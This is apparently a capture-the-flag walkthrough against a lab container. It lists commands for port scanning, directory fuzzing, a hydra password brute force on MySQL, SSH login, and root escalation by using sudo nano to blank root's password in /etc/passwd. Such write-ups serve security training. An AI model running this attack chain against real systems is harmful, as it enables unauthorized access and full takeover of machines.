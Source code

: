 ![image](https://github.com/user-attachments/assets/8d11fa84-e682-4f7f-968b-a1479792dbce)

```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![Pasted image 20250128135506](https://github.com/user-attachments/assets/c463a239-13c7-47c2-ac91-11de2bcc774b)
![Pasted image 20250128135614](https://github.com/user-attachments/assets/cdbf3922-80b8-4ad2-961f-8c44ad078040)
![Pasted image 20250128135636](https://github.com/user-attachments/assets/088ccf73-b8d2-4ca6-a913-c6be6829f06d)


## **We can deduce that a user is “V”.**
 
## **fuzzing found nothing**
 ```bash
 gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![Pasted image 20250128135755](https://github.com/user-attachments/assets/877de6f4-ceec-4764-98fb-7e73d496545f)

## **Let's do a brute force attack on port 3306 MYSQL as we can find more stored users here**
```bash
hydra -l V -P /usr/share/wordlists/rockyou.txt mysql://172.17.0.2 -V -I -t 1 -f
```
![Pasted image 20250130112307](https://github.com/user-attachments/assets/71e60feb-2ac3-4454-b417-07cc05cde7f9)

## **Now we connect via sql to check credentials**
```bash
mysql -h 172.17.0.2 -u V -p --ssl=0
```
![Pasted image 20250130113535](https://github.com/user-attachments/assets/4056b0e1-b7ea-4a1a-bf5d-f32fd731be98)

## **by browsing the database we find info**
![Pasted image 20250130114836](https://github.com/user-attachments/assets/378b4f6b-57d0-40cb-b631-5147696f2055)

## **Now we will connect via ssh**
```bash
ssh V@172.17.0.2
```
![Pasted image 20250130115214](https://github.com/user-attachments/assets/513bc173-2c46-4c8b-8146-eaf7fa9d7390)

## **we already have access now we have to elevate privileges**
```bash
sudo -l
```
![Pasted image 20250130115305](https://github.com/user-attachments/assets/93ab47e5-66b7-4b72-9215-6edcec9af67c)

## **we do a TTY treatment**
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## **As we have root permissions with nano we will modify the file where the users are located**
```bash
sudo nano /etc/passwd
```
![Pasted image 20250130115734](https://github.com/user-attachments/assets/5b26c4a0-fcfd-44d7-a037-f3ae4273a09d)

## **we delete the X so that we are not asked for a password**

![Pasted image 20250130115808](https://github.com/user-attachments/assets/75b99ab2-5d43-4986-a0bf-1217d0b9a73d)

```bash
su root
```
![Pasted image 20250130115850](https://github.com/user-attachments/assets/635565b8-72e7-4915-98fa-f625b08edf55)
